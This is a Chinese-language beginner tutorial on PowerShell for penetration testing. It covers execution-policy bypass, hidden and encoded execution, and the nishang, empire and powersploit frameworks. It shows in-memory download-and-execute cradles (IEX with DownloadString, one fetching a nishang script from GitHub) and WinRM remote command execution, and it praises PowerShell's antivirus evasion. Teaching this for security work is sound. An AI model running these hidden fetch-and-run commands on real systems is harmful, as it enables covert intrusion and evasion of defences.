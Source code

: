 ## 目录
- 什么是powershell
- 基本参数
- 基本命令

### 1. 什么是powershell
功能相当于UNIX系统的命令行壳程序（例如：sh、bash或csh），同时也内置脚本语言以及辅助脚本程序的工具。

powershell的优点在于：
- win7以上默认安装
- powershell脚本可以运行在内存
- 免杀效果好
- 可以使用Windows API＆.Net代码

powershell框架：
- nishang 
- empire
- powerup
- powersploit
- ......

### 2. 基本参数
- -Exec Bypass

powershell的安全策略有五级：Restricted、AllSigned（所有的签名 ）、RemoteSigned（远程签名） 、Unrestricted、Bypass。
默认安全策略不允许运行ps1文件（powershell脚本文件），当你启动一个ps1脚本文件，会通过记事本打开。
因此这个参数就是用来绕过安全策略直接执行powershell脚本。

![image](./pic/bypass.png)
- -NonI

非交互模式
- -NoProfile（或者-NoP）

powershell控制台不加载当前用户的配置文件
- -noexit

执行后不退出powershell
- -W Hidden

将命令窗口保持隐藏
- -enc [Base64 Code]

执行经过编码的代码，Base64 Code为base64编码后的Powershell脚本
- -File 

从指定文件中运行命令
- (New-Object Net.WebClient).DownloadString()
- (New-Object System.Net.Webclient).DownloadFile()

System.Net Webclient类是用来向远程发送数据，或者接收数据。

DownloadFile 方法，它可以从远程下载一个文件到存到本地。

Download-String方法可以将远程的内容下载到内存中的缓冲区。
- IEX
 
即Invoke-Expression，允许用户计算和运行动态生成的命令。此方法通常用于直接下载到内存的脚本。
- -command

执行命令
### 3. 基本命令
- 直接通过command执行powershell自带命令
```
powershell.exe -command Get-HotFix  #检查系统补丁
powershell.exe -command Get-Process  #获取进程列表
```
- 远程下载powershell脚本，并且装入内存执行。
```
Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-ObjectNet.WebClient).DownloadString('[Powershell URL]');[Parameters]
```
- 远程下载脚本到本地文件，然后运行文件
```
Powershell.exe (New-Object System.Net.WebClient).DownloadFile($URL,$LocalFileLocation);Start-Process $LocalFileLocation 
```
比如下面这个例子，加载远程的powershell脚本，nishang框架的getInformation到内存执行来获取系统信息
```
Powershell.exe -Exec Bypass IEX"(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-Information.ps1');Get-Information"
```
- powershell进行远程交互
首先需要在要进行远程连接的主机上面设置WinRM（Windows Remote Mangement）为允许远程连接：

![image](./pic/winrm_quickconfig.png)

然后在本机添加信任列表：
```
Set-Item wsman:\localhost\Client\TrustedHosts -value 192.168.1.*
```

![image](./pic/TrustHosts.png)

然后就可以使用PSSession 命令进入远程 powershell 会话交互模式

```
Enter-PSSession –ComputerName 192.168.1.105 -Credential Administrator
```
![image](./pic/Enter-PSSession.png)

或者利用Invoke-Command在计算机上远程执行命令（或者脚本等等）：
```
Invoke-Command -ComputerName 192.168.1.105 –ScriptBlock {Start-Process -FilePath Ping.exe -ArgumentLis
t "192.168.1.103 -n 5"} –credential Administrator
```
执行之后可以抓到包：

![image](./pic/ping.png)


---
这里只是对powershell进行一个简单的入门介绍，后续需要学习powershell的各种框架，利用这些框架来进行渗透，再进阶要掌握powershell的语法以及各种代码混淆。








